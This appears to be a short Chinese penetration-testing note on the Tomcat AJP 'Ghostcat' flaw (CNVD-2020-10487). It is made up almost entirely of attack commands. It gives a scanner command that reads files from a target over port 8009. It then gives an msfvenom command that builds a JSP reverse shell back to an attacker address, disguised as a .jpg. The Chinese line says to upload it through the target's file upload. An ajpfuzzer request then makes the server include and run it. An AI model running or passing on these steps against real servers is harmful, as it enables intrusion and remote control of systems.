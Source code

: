 	LFI
	https://github.com/Kit4y/CNVD-2020-10487-Tomcat-Ajp-lfi-Scanner
	>python CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.0.110 -p 8009 -f pass
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/41.png)

	RCE
	>msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.107 LPORT=12138 R >/var/www/html/1.jpg
	配合目标文件上传传入服务器
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/42.png)

	>java -jar ajpfuzzer_v0.6.jar
	>connect 192.168.0.110 8009
	>forwardrequest 2 "HTTP/1.1" "/index.jsp" 192.168.0.107 192.168.0.107 porto 8009 false "Cookie:AAAA=BBBB","Accept-Encoding:identity" "javax.servlet.include.request_uri:index.jsp","javax.servlet.include.path_info:/1.jpg","javax.servlet.include.servlet_path:/"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/43.png)

